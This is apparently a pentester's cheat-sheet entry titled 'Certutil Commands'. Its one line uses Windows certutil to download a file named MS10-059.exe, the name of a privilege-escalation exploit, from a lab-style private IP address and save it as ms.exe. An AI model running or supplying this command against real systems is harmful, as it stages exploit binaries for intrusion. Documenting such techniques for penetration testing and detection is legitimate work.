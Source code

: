 # Certutil Commands

## Download file with Certutil
```
certutil -urlcache -f http://10.10.16.19/MS10-059.exe ms.exe
```